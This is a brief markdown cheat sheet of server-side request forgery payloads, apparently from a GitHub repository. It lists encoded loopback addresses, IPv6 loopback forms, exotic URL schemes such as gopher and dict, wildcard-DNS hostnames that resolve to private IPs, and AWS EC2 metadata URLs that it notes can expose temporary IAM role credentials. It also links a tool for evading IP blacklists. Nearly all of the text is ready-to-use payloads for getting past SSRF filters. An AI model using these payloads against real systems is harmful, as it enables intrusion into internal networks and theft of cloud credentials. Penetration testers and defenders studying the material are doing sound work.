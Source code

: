 ## SSRF

**How to SSRF by Jobert Abma
https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/


**IP-Obfuscator**
Often come handy when backend application is using some sort of black-listing approach to block private address
https://github.com/C-REMO/Obscure-IP-Obfuscator



**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role [...]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)
